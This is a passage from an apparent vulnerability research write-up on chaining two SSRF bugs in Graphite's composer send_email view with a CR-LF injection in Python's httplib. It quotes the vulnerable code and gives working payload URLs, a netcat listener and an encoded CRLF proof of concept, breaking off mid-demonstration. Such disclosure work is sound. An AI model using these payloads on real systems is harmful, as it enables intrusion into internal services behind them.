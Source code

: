 Graphite is written in Python and also a open-source project, you can download the source code here!

From reading the source, I quickly find another SSRF here. The second SSRF is simple.

In file webapps/graphite/composer/views.py

```
def send_email(request):
    try:
        recipients = request.GET['to'].split(',')
        url = request.GET['url']
        proto, server, path, query, frag = urlsplit(url)
        if query: path += '?' + query
        conn = HTTPConnection(server)
        conn.request('GET',path)
        resp = conn.getresponse()
        ...
```
You can see Graphite receive the user input url and just fetch it! So, we can use the first SSRF to trigger the second SSRF and combine them into a SSRF execution chain.

The SSRF execution chain payload:


http://0:8000/composer/send_email?
to=orange@nogg&
url=http://orange.tw:12345/foo
The request of second SSRF
```
$ nc -vvlp 12345
```
...

GET /foo HTTP/1.1
Host: orange.tw:12345
Accept-Encoding: identity
OK, we successfully change the POST-based SSRF into a GET-based SSRF. But still can’t do anything.

Let’s go to next stage!

Third Bug - CR-LF Injection in Python
As you can see, Graphite uses Python httplib.HTTPConnection to fetch the resources. With some trials and errors, I notice that there is a CR-LF Injection in httplib.HTTPConnection. Therefore, we have the ability to embed malicious payloads in HTTP protocol.

CR-LF Injection PoC

1
2
3
http://0:8000/composer/send_email?
to=orange@nogg&
url=http://127.0.0.1:12345/%0D%0Ai_am_payload%0D%0AFoo:
1
2
3
4
5
6
7
8
$ nc -vvlp 12345
...

